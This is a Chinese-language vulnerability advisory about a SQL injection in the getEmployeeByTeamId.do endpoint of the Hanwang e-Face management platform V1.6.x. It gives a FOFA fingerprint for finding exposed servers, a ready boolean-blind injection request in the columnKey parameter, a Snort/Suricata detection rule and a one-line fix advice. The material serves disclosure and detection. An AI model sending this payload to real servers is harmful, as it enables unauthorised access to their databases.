

# 汉王e脸通综合管理平台 getEmployeeByTeamId.do 存在SQL注入漏洞

汉王e脸通综合管理平台 getEmployeeByTeamId.do 存在SQL注入漏洞

# 影响版本

**汉王e脸通综合管理平台 V1.6.x**

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:  icon_hash=&quot;1380907357&quot;**

**POC/EXP：**

**step1**  sql注入

```
GET /manage/patrolTeam/getEmployeeByTeamId.do?recoToken=67mds2pxXQb&page=1&pageSize=10&columnKey=ptu.ID+RLIKE+(SELECT+(CASE+WHEN+(5992%3d5992)+THEN+0x7074752e4944+ELSE+0x28+END))%23+EeIa&order=desc&id=2&startTime=2026-05-02&endTime=2026-05-03&communityId=1&planId=1&lineId=1&teamId=1&areaId=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"汉王e脸通综合管理平台 - getEmployeeByTeamId.do columnKey SQL注入漏洞 (RLIKE布尔盲注)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/manage/patrolTeam/getEmployeeByTeamId.do"; fast_pattern;
        content:"columnKey="; nocase; distance:0;
        content:"RLIKE"; nocase; distance:0; within:50;
        content:"SELECT"; nocase; distance:0; within:50;
    metadata:
        service http,
        affected_product "汉王e脸通综合管理平台",
        vulnerability_type "SQL Injection (Boolean-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000804;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
